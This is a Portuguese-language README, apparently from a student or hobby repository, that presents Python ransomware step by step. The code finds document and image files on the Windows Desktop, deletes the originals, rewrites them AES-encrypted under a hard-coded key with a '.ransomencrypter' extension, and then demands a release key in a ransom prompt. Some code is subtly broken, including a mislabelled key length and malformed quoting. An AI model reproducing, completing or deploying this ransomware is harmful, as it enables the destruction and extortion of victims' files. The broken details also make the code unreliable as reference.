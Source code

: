 # Ransomware-GS
 Descrição do funcionamento do ransomware.
 
 
Esse ransomware foi feito para funcionar em windows.


 Primeiramente precisamos fazer os imports necessários 
 
 
import os  # sistema operacional


import glob  # busca os arquivos


import time


import pyaes  # biblioteca de criptografia aes

 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.

lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]

print('Criptografando')

time.sleep(3)
 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:

    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():

    for arquivos in lst_arqui:
        for format_arqui in glob.glob(arquivos):
            print(format_arqui)
            A = open(f'{desktop}\\{format_arqui}', 'rb')  # rb = read binary e wb = write binary
            data_arqui = A.read()
            A.close()
            os.remove(f'{desktop}\\{format_arqui}')
            key = b"'1cb5c7o1n3j9h7i2jj8"  # 16 byts key - chave
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(data_arqui)
            novo_arqui = format_arqui + ".ransomencrypter"
            novo_arqui = open(f'{desktop}\\{novo_arqui}', 'wb')
            novo_arqui.write(crypto_data)
            novo_arqui.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
 def descrypt(decrypt_file):
   try:
   
       for arquivo in glob.glob('*.ransomencrypter'):
            keybytes = decrypt_file.encode()
            name_arquivo = open(arquivo, 'rb')
            data_arqui = name_arquivo.read()
            akey = keybytes
            aaes = pyaes.AESModeOfOperationCTR(akey)  # gera a decriptografia
            decrypt_data = aaes.decrypt(data_arqui)

            format_file = arquivo.split('.')
            new_nome_arquivo = format_file[0] + '.' + format_file[1]

            dnovo_arquivo = open(f'{desktop}\\{new_nome_arquivo}', 'wb')
            dnovo_arquivo.write(decrypt_data)
            dnovo_arquivo.close()
    except ValueError as err:
        print('Chave errada, que pena ;(')
        
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':

    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == ''1cb5c7o1n3j9h7i2jj8':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida, que pena ;(')
